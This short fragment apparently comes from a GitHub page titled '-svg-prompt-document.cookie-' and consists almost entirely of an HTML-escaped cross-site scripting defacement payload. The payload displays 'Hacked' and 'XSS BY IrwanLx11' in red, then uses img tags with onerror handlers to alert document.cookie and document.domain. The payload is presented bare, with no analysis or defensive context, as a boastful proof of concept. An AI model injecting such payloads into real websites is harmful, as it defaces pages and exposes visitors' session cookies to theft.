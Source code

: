 # -svg-prompt-document.cookie-
Hacked&lt;br>&lt;br>&lt;center>&lt;font color="red">XSS BY IrwanLx11&lt;br>&lt;br>&lt;img src=x onerror=alert(document.cookie)>&lt;br>&lt;br>&lt;img src=x onerror=alert(document.domain)>

